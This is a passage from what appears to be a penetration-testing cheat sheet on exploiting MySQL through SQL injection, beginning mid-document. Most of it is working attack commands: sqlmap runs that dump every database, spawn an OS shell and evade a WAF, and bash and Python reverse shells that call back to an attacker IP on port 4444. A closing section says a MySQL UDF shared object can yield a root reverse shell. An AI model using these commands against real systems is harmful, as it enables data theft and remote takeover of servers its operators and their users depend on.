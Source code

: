 Next, try to connect with your private key:

```
root@kali: ssh -i /home/.ssh/id_rsa.priv mysql@example.com
```

#### Capturing the request with burpsuite of the login form or search form and feeding it to sql map

```
root@kali:sqlmap -r request.txt –dump-all –level=5 –risk=3
```

Or we can let sqlmap automate the selection of the form parameters as below

```
root@kali:sqlmap -u http://domain.com/login.php --forms --dump
```

#### Grabbing os shell after exploitation

```
root@kali:sqlmap -r request.txt –dump-all –level=5 –risk=3 --os-shell
```

#### And then from os-shell to nc shell:

```
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'
```

#### OS-shell to Python shell

```
python3 -c` `'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("my-own-ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Instructing sqlmap to try and bypass WAF

```
root@kali:sqlmap -r req.txt --current-db --tamper=space2comment 
```

### Exporting shared objects to plugin directory and executing sys\_exec. This method assumes that you have the username and password of a privileged database user or the root username and password. The objective is to execute system function and establish reverse shell back to us with root privileges.

#### Applying on MYSQL

A ready shared object for MYSQL can be found here

```
https://github.com/mysqludf/lib_mysqludf_sys.git
```
